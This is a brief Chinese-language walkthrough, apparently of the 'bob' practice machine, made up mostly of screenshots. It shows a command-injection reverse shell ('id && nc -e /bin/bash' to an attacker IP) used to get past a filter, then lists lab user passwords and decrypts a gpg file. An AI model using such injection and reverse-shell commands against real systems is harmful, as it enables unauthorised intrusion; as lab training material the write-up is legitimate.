 # bob

![image-20200619064614371](assets/bob.assets/image-20200619064614371.png)

![image-20200619064801608](assets/bob.assets/image-20200619064801608.png)



![image-20200619071632161](assets/bob.assets/image-20200619071632161.png)



![image-20200619073444169](assets/bob.assets/image-20200619073444169.png)

![image-20200619073622557](assets/bob.assets/image-20200619073622557.png)

直接nc回弹shell会被过滤掉，试一试用命令连接

```bash
id || nc -e /bin/bash 10.10.10.128 1337		#失败
id && nc -e /bin/bash 10.10.10.128 1337		#成功
```

![image-20200619081420128](assets/bob.assets/image-20200619081420128.png)

home下有4个用户，bob目录下有隐藏的旧密码文件

![image-20200619083020352](assets/bob.assets/image-20200619083020352.png)

```bash
jc:Qwerty
seb:T1tanium_Pa$$word_Hack3rs_Fear_M3
```

![image-20200619083557481](assets/bob.assets/image-20200619083557481.png)

```bash
elliot:theadminisdumb
```

![image-20200619084327709](assets/bob.assets/image-20200619084327709.png)

secret挖到最后

![image-20200619084614096](assets/bob.assets/image-20200619084614096.png)

回到之前的文档目录

![image-20200619084829225](assets/bob.assets/image-20200619084829225.png)

看来只剩下login.txt.gpg文件了，这是个加密的txt文件

做了一些枚举，仍没发现有用的线索。

仔细回看之前得到的信息发现

![image-20200619085618690](assets/bob.assets/image-20200619085618690.png)

```bash
HARPOCRATES

```

![image-20200619090613529](assets/bob.assets/image-20200619090613529.png)

使用nc传回kali，

尝试用之前的密码解密

```bash
gpg --batch --passphrase HARPOCRATES -d login.txt.gpg
```



![image-20200619091300916](assets/bob.assets/image-20200619091300916.png)

```bash
bob:b0bcat_
```

![image-20200619091820165](assets/bob.assets/image-20200619091820165.png)

![image-20200619091913730](assets/bob.assets/image-20200619091913730.png)